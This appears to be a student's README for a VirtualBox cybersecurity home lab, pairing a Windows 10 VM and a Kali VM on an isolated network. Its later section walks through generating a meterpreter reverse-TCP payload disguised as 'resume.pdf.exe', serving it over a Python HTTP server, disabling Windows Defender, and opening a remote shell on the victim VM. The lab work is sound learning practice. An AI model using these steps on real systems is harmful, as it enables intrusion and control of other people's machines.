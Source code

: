 # Cybersecurity-HomeLab (on a Windows Machine) 

## Objective

Building a cybersecurity home-lab for offense and defense 

### Skills Learned

- Virtual Machines
- NAT network
- VM Snapshots
- VM Guest additions

  

### Tools Used

- VirtualBox
- https://www.youtube.com/watch?v=kku0fVfksrk
- 
  

### Steps to install all the ISO VM inside VirtualBox and config

- Download Windows 10 from Windows official website. https://www.microsoft.com/en-ca/software-download/windows10ISO
- Download Kali Linux from the official website and choose the virtual box option.
- When installing windows 10 make sure to add the ISO file and skip unattended installation.
- Open the Vbox file for Kali Linux to add it to VirtualBox

### Creating a internal network for the VMS

- We will choose internal network for all the VMs and name it.
- We will go to the Windows 10 machine and right-click on the internet icon and go to change adapter options
- We will go to options for the ethernet and find internet protocol 4 and click on properties and add the static IP addresses we want. (ip 192.168.20.10, subnet 255.255.255.0 and gateway empty)
- We can check the new IPs by going to CMD and ipconfigms
- We will do the same to the Kali by going to the ethernet and right-click and edit connection
- We select the wired connection and then options.
- We go to IPv4 settings
- We select manual from the Method dropdown
- We will add new address, 192.168.20.11 and the netmask 24
- We go to terminal and ifconfig to check the static IP address we choose.

### Creating telemetry to detect evil

- We will go to Kali and then type nmap -A <the windows IP> -Pn and we look for an open port
- We can see port 3389/tcp open
- We will now create a malware using msfvenom
- We can see all the payloads by typing msfvenom -l payloads
- We will choose a meterpreter reverse tcp for windows
- We type msfvenom -p <then the payload we want to create> lhost=ip of kali lport=4444 -f exe -o resume.pdf.exe then we enter and the file will be created at the desktop
- We can now open metasploit with mfsconsole
- Now we need to use the handler by typing <use exploit/multi/hander> and we will now be in the exploit itself
- We can now change the options by typing <options> to see what we can config.
- We set the payload to <windows/x64/meterpreter/reverse_tcp
- We set the lhost to the Kali (attacker VM) ip
- We can start the hander by typing <exploit> and it will b e now listening
- We need to create an http.server to send the malware to the windows VM
- We can use python by typing < python3 -m http.server 9999
- We now need to send the payload to the Windows VM by disabling the windows defender.
- We go to Windows Security--> Virus and threat protection and turn off real-time protection
- We now go to the browser and type 192.168.20.11:9999 Thats the Kali IP and the http port we created
- We can now download the payload we made and can view it in the finder.
- We install the payload and then open CMD (command prompt) as an admin
- We can type <netstat -anob> and we can find the Kali IP address has established a connection with a PID number
- We can go to the task manager and go to details and look for the PID and we can find the resume.pdf.exe payload running
- We can go to Kali and we can see a session is open and has a connection to the win VM
- We can now type <help> to see all the commands we can use
- We can type <shell> to open a shell and type <net user> to see the user of the OS.
- 
